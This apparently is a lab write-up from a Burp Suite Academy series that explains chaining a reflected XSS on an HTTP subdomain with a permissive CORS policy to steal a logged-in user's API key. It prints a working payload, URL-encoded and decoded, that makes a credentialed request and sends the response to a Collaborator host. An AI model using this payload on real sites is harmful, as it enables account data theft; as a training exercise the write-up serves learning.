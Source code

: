```yaml
---
title: Exploiting XSS via CORS trust relationships
description: Example test article that contains basic HTML elements for text formatting on the Web.
date: 2018-04-16
categories:
  - "Development"
tags:
  - "HTML"
  - "CSS"
  - "Basic Elements"
---
```


#  Exploiting XSS via CORS trust relationships

Continuing the Burp Suite Academy series. Today, we will go through CORS exploitations exercises... 
<!--more-->

The web application is the same online store which allows a user to log-in, change his e-mail address and retrieve his API key. This time around, the server only trusts requests originating from subdomains of the app.

```http
GET /api/requestApiKey HTTP/1.1
Host: <instanceId>.web-security-academy.net
Origin: https://subdomain.<instanceId>.web-security-academy.net
Cookie: sessionid=...
```

Response: 
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json
X-XSS-Protection: 0
Connection: close
Content-Length: 89

{
  "username": "******",
  "email": "",
  "apikey": "********************************"
}
```

Further testing reveals that the server is configured to accept **any protocol** as long as the request comes from a subdomain of the main application `<instanceId>.web-security-academy.net`.

This version of the application has a new function which allows a user to check the remaining stock of a given item. The request looks like this:

```http
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.<instanceId>.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: ...
Accept-Encoding: ...
Accept-Language: ...
Connection: close
```

The paramater `productId` is not validated nor sanitized, and is vulnerable to reflected Cross-site Scripting. 

```
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=5t8SM9hnfSxy91QpvWQ4o7rPMK8pg05H; Secure; HttpOnly
X-XSS-Protection: 0
Connection: close
Content-Length: 76

<h4>ERROR</h4>Invalid product ID: <script>alert("document.domain");</script>
```

Since the `stock.<...>` subdomain is running on `HTTP` (not `HTTPs`), the `session` cookies will never be transmitted to the browser. Therefore, our XSS will not be able to retrieve any of those. Right now, the impact of the vulnerability seems quite limited. Except, it is not !

We saw earlier that the server is configured to pass session cookies for any (cross-origin) request coming from a subdomain of the app, **regardless** of the protocol.

```
Access-Control-Allow-Origin: <protocol>://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Therefore, it is possible for us to leverage this CORS (mis)configuration to bypass the limitations of Same Origin Policy (SOP) and retrieve the API key with a cross-origin request. Consider the following attack scenario:

1. Attacker hosts a malicious file in a server of his control
2. Attacker send a link to his exploit to Victim (who is already logged-in the main app)
3. Victim accesses the link and is redirected to `stock.<instanceId>.web-security-academy.net`
4. Victim's browser triggers the `rXSS` payload when rendering the page
5. Victim's browser requests his `apikey` on the main app. At this point, the `Origin` of this request will be a trusted subdomain with protocol `http`. Therefore the server CORS config will allow the request to go through
6. Victim's browser sends the `apikey` to the Attacker's server
7. Et voilà !
   
This the the payload I used to solve the corresponding exercise in BS Academy. It follows the aforementioned steps one-by-one. You can use the exploit server provided in the lab and conveniently force the Victim to visit it. In reality, the last part would require a little bit of social-engineering :-).

```html
<script>
let burpInstanceUrl = "<Your generated instance URL>";
/* We URL-encode our payload to prevent any hiccups when the browser will attempt render and execute the reflected XSS */
let xssPayload = "%3c%73%63%72%69%70%74%3e%6c%65%74%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%78%68%72%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%68%74%74%70%73%3a%2f%2f%61%63%65%35%31%66%63%39%31%65%65%32%36%32%65%33%38%30%62%32%35%31%38%65%30%30%62%63%30%30%64%31%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%3d%74%72%75%65%3b%78%68%72%2e%6f%6e%6c%6f%61%64%3d%72%65%71%4c%69%73%74%65%6e%65%72%3b%78%68%72%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%7b%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%74%64%61%6b%67%35%66%79%6b%78%62%38%72%6b%64%70%62%32%63%70%69%6b%61%6c%6a%63%70%36%64%76%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%3f%22%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3c%2f%73%63%72%69%70%74%3e";
/* Step 2: Leverage the reflected XSS vulnerability in the subdomain to make an AJAX call and recover the victim's API key */
let trustedUrl = `http://stock.${burpInstanceUrl}.web-security-academy.net/?productId=${xssPayload}&storeId=1`;
/*  Step 1: Redirect the victim to the subdomain whitelisted in CORS configuration */
document.location = trustedUrl;
</script>
```

```html
<!-- Decoded xssPayload -->
<script>
  let xhr = new XMLHttpRequest();
  xhr.open(
    "GET",
    "https://${your_instance_url}.web-security-academy.net/accountDetails",
    true
  );
  xhr.withCredentials = true;
  xhr.onload = reqListener;
  xhr.send();
  function reqListener() {
    location =
      "http://subdomain.burpcollaborator.net/?" +
      this.responseText;
  }
</script>

```

Tags: #cors,#burp-suite-academy
